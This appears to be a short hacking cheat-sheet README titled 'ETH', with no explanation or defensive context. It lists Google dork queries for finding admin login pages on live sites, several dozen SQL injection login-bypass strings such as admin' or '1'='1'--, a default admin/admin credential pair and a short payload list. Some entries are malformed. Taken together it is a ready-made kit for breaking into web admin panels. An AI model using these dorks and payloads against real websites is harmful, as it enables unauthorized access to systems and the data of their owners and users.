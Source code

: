 # ETH

## Dork:
ei duita te beshi kaj hobe.
- inurl: admin/login.php site:.com
- inurl: admin/login.php site:.in
- inurl: admin/login.php
- inurl: admin/index.php
- inurl: admin
- inurl: login.php
- inurl: login.php site:.in

Two
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx


## SQL INJECTION
- 1'or'1'='1
- 1'or'1'-'1
- OR 1-1 LIMIT 1 ;# or 1-1 limit 1 --
- admin' or '1'-'1
- 'or 1-1 limit 1--
- 1'or'1'='1
- ' or 1=1#
- or 1=1
- " or ""="
- or 1=1--
- or 1=1#
- or 1=1/*
- admin' --
- admin' #
- admin'/*
- admin' or '1'='1
- admin' or '1'='1'--
- admin' or '1'='1'#
- admin' or '1'='1'/*
- admin'or 1=1 or ''='
- admin' or 1=1
- admin' or 1=1--
- admin' or 1=1#
- admin' or 1=1/*
- admin') or ('1'='1
- admin') or ('1'='1'--
- admin') or ('1'='1'#
- admin') or ('1'='1'/*
- admin') or '1'='1
- admin') or '1'='1'--
- admin') or '1'='1'#
- admin') or '1'='1'/*

- user Name: admin password: admin

## DORKS:
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx
- inurl:personalrecords/login.php
- inurl:admin/Uploade
- inurl:admin/Upload
- inurl:creative-admin
- inurl:-admin/login.php
- inurl:*-admin/index.php
- inurl:-admin/admin.php
## PAYLOADS
- 1'or'1'='1
- ' OR 1=1 LIMIT 1 ;#
- ' or 1=1 limit 1 -- -+
- admin' or '1'='1
- 'or 1=1 limit 1-- -+---
